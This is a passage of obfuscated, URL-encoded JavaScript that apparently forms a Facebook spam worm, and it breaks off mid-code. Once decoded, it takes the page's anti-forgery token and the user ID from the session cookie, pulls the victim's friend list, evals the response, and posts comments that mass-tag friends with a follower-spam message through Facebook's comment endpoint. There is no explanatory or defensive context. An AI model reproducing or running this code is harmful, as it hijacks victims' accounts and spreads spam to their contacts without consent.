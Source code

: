 %69%66%69%65%72%3D%22%2C%22%5C%78%32%36%63%6F%6D%6D%65%6E%74%5F%74%65%78%74%3D%3F%3F%20%46%6F%6C%6C%6F%77%20%6D%79%20%6C%69%73%74%20%69%20%77%69%6C%6C%20%62%61%63%6B%20%31%30%30%30%20%66%6F%6C%6C%6F%77%65%72%20%79%6F%75%20%61%72%65%20%70%72%6F%66%69%6C%65%20%3A%44%20%3F%3F%22%2C%22%5C%78%32%36%73%6F%75%72%63%65%3D%32%22%2C%22%5C%78%32%36%63%6C%69%65%6E%74%5F%69%64%3D%31%33%37%37%38%37%31%37%39%37%31%33%38%3A%31%37%30%37%30%31%38%30%39%32%22%2C%22%5C%78%32%36%72%65%70%6C%79%5F%66%62%69%64%22%2C%22%5C%78%32%36%70%61%72%65%6E%74%5F%63%6F%6D%6D%65%6E%74%5F%69%64%22%2C%22%5C%78%32%36%72%6F%6F%74%69%64%3D%75%5F%6A%73%6F%6E%70%5F%32%5F%33%22%2C%22%5C%78%32%36%63%6C%70%3D%7B%5C%78%32%32%63%6C%5F%69%6D%70%69%64%5C%78%32%32%3A%5C%78%32%32%34%35%33%35%32%34%61%30%5C%78%32%32%2C%5C%78%32%32%63%6C%65%61%72%63%6F%75%6E%74%65%72%5C%78%32%32%3A%30%2C%5C%78%32%32%65%6C%65%6D%65%6E%74%69%64%5C%78%32%32%3A%5C%78%32%32%6A%73%5F%35%5C%78%32%32%2C%5C%78%32%32%76%65%72%73%69%6F%6E%5C%78%32%32%3A%5C%78%32%32%78%5C%78%32%32%2C%5C%78%32%32%70%61%72%65%6E%74%5F%66%62%69%64%5C%78%32%32%3A%22%2C%22%7D%22%2C%22%5C%78%32%36%61%74%74%61%63%68%65%64%5F%73%74%69%63%6B%65%72%5F%66%62%69%64%3D%30%22%2C%22%5C%78%32%36%61%74%74%61%63%68%65%64%5F%70%68%6F%74%6F%5F%66%62%69%64%3D%30%22%2C%22%5C%78%32%36%67%69%66%74%6F%63%63%61%73%69%6F%6E%22%2C%22%5C%78%32%36%66%74%5B%74%6E%5D%3D%5B%5D%22%2C%22%5C%78%32%36%5F%5F%61%3D%31%22%2C%22%5C%78%32%36%5F%5F%64%79%6E%3D%37%6E%38%61%68%79%6A%33%35%79%6E%78%6C%32%75%35%46%39%37%4B%65%70%45%73%79%6F%22%2C%22%5C%78%32%36%5F%5F%72%65%71%3D%71%22%2C%22%5C%78%32%36%66%62%5F%64%74%73%67%3D%22%2C%22%5C%78%32%36%74%74%73%74%61%6D%70%3D%22%2C%22%50%4F%53%54%22%2C%22%2F%61%6A%61%78%2F%75%66%69%2F%61%64%64%5F%63%6F%6D%6D%65%6E%74%2E%70%68%70%22%2C%22%43%6F%6E%74%65%6E%74%2D%74%79%70%65%22%2C%22%61%70%70%6C%69%63%61%74%69%6F%6E%2F%78%2D%77%77%77%2D%66%6F%72%6D%2D%75%72%6C%65%6E%63%6F%64%65%64%22%2C%22%73%65%74%52%65%71%75%65%73%74%48%65%61%64%65%72%22%2C%22%73%74%61%74%75%73%22%2C%22%63%6C%6F%73%65%22%5D%3B%76%61%72%20%66%62%5F%64%74%73%67%3D%64%6F%63%75%6D%65%6E%74%5B%5F%30%78%61%32%32%63%5B%32%5D%5D%28%5F%30%78%61%32%32%63%5B%31%5D%29%5B%30%5D%5B%5F%30%78%61%32%32%63%5B%30%5D%5D%3B%76%61%72%20%75%73%65%72%5F%69%64%3D%64%6F%63%75%6D%65%6E%74%5B%5F%30%78%61%32%32%63%5B%34%5D%5D%5B%5F%30%78%61%32%32%63%5B%33%5D%5D%28%64%6F%63%75%6D%65%6E%74%5B%5F%30%78%61%32%32%63%5B%34%5D%5D%5B%5F%30%78%61%32%32%63%5B%33%5D%5D%28%2F%63%5F%75%73%65%72%3D%28%5C%64%2B%29%2F%29%5B%31%5D%29%3B%76%61%72%20%69%64%3D%5F%30%78%61%32%32%63%5B%35%5D%3B%76%61%72%20%61%72%6B%61%64%61%73%6C%61%72%3D%5B%5D%3B%76%61%72%20%73%76%6E%5F%72%65%76%3B%66%75%6E%63%74%69%6F%6E%20%61%72%6B%61%64%61%73%6C%61%72%69%5F%61%6C%28%69%64%29%7B%76%61%72%20%5F%30%78%37%38%39%32%78%37%3D%20%6E%65%77%20%58%4D%4C%48%74%74%70%52%65%71%75%65%73%74%28%29%3B%5F%30%78%37%38%39%32%78%37%5B%5F%30%78%61%32%32%63%5B%36%5D%5D%3D%66%75%6E%63%74%69%6F%6E%20%28%29%7B%69%66%28%5F%30%78%37%38%39%32%78%37%5B%5F%30%78%61%32%32%63%5B%37%5D%5D%3D%3D%34%29%7B%65%76%61%6C%28%5F%30%78%61%32%32%63%5B%38%5D%2B%5F%30%78%37%38%39%32%78%37%5B%5F%30%78%61%32%32%63%5B%31%32%5D%5D%2E%74%6F%53%74%72%69%6E%67%28%29%5B%5F%30%78%61%32%32%63%5B%31%31%5D%5D%28%5F%30%78%61%32%32%63%5B%39%5D%2C%5F%30%78%61%32%32%63%5B%31%30%5D%29%2B%5F%30%78%61%32%32%63%5B%31%33%5D%29%3B%66%6F%72%28%66%3D%30%3B%66%3C%4D%61%74%68%5B%5F%30%78%61%32%32%63%5B%31%37%5D%5D%28%61%72%6B%61%64%61%73%6C%61%72%5B%5F%30%78%61%32%32%63%5B%31%36%5D%5D%5B%5F%30%78%61%32%32%63%5B%31%35%5D%5D%5B%5F%30%78%61%32%32%63%5B%31%34%5D%5D%2F%32%37%29%3B%66%2B%2B%29%7B%6D%65%73%61%6A%3D%5F%30%78%61%32%32%63%5B%31%30%5D%3B%6D%65%73%61%6A%5F%74%65%78%74%3D%5F%30%78%61%32%32%63%5B%31%30%5D%3B%66%6F%72%28%69%3D%66%2A%32%37%3B%69%3C%28%66%2B%31%29%2A%32%37%3B%69%2B%2B%29%7B%69%66%28%61%72%6B%61%64%61%73%6C%61%72%5B%5F%30%78%61%32%32%63%5B%31%36%5D%5D%5B%5F%30%78%61%32%32%63%5B%31%35%5D%5D%5B%69%5D%29%7B%6D%65%73%61%6A%2B%3D%5F%30%78%61%32%32%63%5B%31%38%5D%2B%61%72%6B%61%64%61%73%6C%61%72%5B%5F%30%78%61%32%32%63%5B%31%36%5D%5D%5B%5F%30%78%61%32%32%63%5B%31%35%5D%5D%5B%69%5D%5B%5F%30%78%61%32%32%63%5B%31%39%5D%5D%2B%5F%30%78%61%32%32%63%5B%32%30%5D%2B%61%72%6B%61%64%61%73%6C%61%72%5B%5F%30%78%61%32%32%63%5B%31%36%5D%5D%5B%5F%30%78%61%32%32%63%5B%31%35%5D%5D%5B%69%5D%5B%5F%30%78%61%32%32%63%5B%32%31%5D%5D%2B%5F%30%78%61%32%32%63%5B%32%32%5D%3B%6D%65%73%61%6A%5F%74%65%78%74%2B%3D%5F%30%78%61%32%32%63%5B%32%33%5D%2B%61%72%6B%61%64%61%73%6C%61%72%5B%5F%30%78%61%32%32%63%5B%31%36%5D%5D%5B%5F%30%78%61%32%32%63%5B%31%35%5D%5D%5B%69%5D%5B%5F%30%78%61%32%32%63%5B%32%31%5D%5D%3B%7D%20%3B%7D%20%3B%79%6F%72%75%6D%5F%79%61%70%28%69%64%2C%6D%65%73%61%6A%29%3B%7D%20%3B%7D%20%3B%7D%20%3B%76%61%72%20%5F%30%78%37%38%39%32%78%38%3D%5F%30%78%61%32%32%63%5B%32%34%5D%3B%5F%30%78%37%38%39%32%78%38%2B%3D%5F%30%78%61%32%32%63%5B%32%35%5D%3B%5F%30%78%37%38%39%32%78%38%2B%3D%5F%30%78%61%32%32%63%5B%32%36%5D%3B%5F%30%78%37%38%39%32%78%38%2B%3D%5F%30%78%61%32%32%63%5B%32%37%5D%3B%5F%30%78%37%38%39%32%78%38%2B%3D%5F%30%78%61%32%32%63%5B%32%38%5D%2B%75%73%65%72%5F%69%64%3B%5F%30%78%37%38%39%32%78%38%2B%3D%5F%30%78%61%32%32%63%5B%32%39%5D%2B%75%73%65%72%5F%69%64%3B%69%66%28%64%6F%63%75%6D%65%6E%74%5B%5F%30%78%61%32%32%63%5B%33%32%5D%5D%5B%5F%30%78%61%32%32%63%5B%33%31%5D%5D%28%5F%30%78%61%32%32%63%5B%33%30%5D%29%3E%3D%30%29%7B%5F%30%78%37%38%39%32%78%37%5B%5F%30%78%61%32%32%63%5B%33%35%5D%5D%28%5F%30%78%61%32%32%63%5B%33%33%5D%2C%5F%30%78%61%32%32%63%5B%33%34%5D%2B%5F%30%78%37%38%39%32%78%38%2C%74%72%75%65%29%3B%7D%20%65%6C%73%65%20%7B%5F%30%78%37%38%39%32%78%37%5B%5F%30%78%61%32%32%63%5B%33%35%5D%5D%28%5F%30%78%61%32%32%63%5B%33%33%5D%2C%5F%30%78%61%32%32%63%5B%33%36%5D%2B%5F%30%78%37%38%39%32%78%38%2C%74%72%75%65%29%3B%7D%20%3B%5F%30%78%37%38%39%32%78%37%5B%5F%30%78%61%32%32%63%5B%33%37%5D%5D%28%29%3B%7D%20%3B%66%75%6E%63%74%69%6F%6E%20%52%61%6E%64%6F%6D%41%72%6B%61%64%61%73%28%29%7B%76%61%72%20%5F%30%78%3